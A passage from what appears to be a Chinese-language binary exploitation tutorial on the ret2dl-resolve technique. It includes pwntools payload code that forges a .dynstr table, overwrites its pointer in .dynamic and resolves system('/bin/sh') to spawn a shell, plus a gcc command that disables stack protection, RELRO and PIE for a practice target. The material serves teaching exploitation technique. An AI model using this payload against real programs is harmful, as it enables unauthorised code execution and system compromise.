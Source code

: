 第二次 read，布置好栈上伪造的 .dynstr 段和 system 参数，调用第三次read，返回时通过 write 的 plt 调用 dl-resolve。

```python
···
strtab_addr = 0x0804B1D8
write_plt_1 = 0x08049086

fake_dynstr  = b'\x00libc.so.6\x00_IO_stdin_used\x00'
fake_dynstr += b'stdin\x00strlen\x00read\x00stdout\x00'
fake_dynstr += b'setbuf\x00__libc_start_main\x00'
fake_dynstr += b'system\x00'

payload2  = b'AAAA'
payload2 += p32(read_plt)       # 第三次 read(0, strtab_addr, 8)
payload2 += p32(ppp_ret)
payload2 += p32(0)
payload2 += p32(strtab_addr)
payload2 += p32(8)
payload2 += p32(write_plt_1)    # system("/bin/sh")
payload2 += b'AAAA'
payload2 += p32(base_stage + 0x24)
payload2 += b'/bin/sh\x00'      # 0x24, binsh_addr
payload2 += fake_dynstr         # 0x2c, fake_dynstr_addr

p.sendline(payload2)
···
```

第三次 read，篡改 .dynamic 段中 .dynstr 的地址。

```python
···
fake_dynstr_addr = base_stage + 0x2c

payload3  = p32(0x5)
payload3 += p32(fake_dynstr_addr)
p.send(payload3)

p.interactive()
```



## 64 位环境下 ret2dl-resolve

> 编译环境：Ubuntu-18，GLIBC 2.27-3ubuntu1.6

### No RELRO 利用思路

还是使用上面的代码，编译为 64 位程序。

```bash
gcc -o bof -fno-stack-protector -z norelro -no-pie bof.c
```
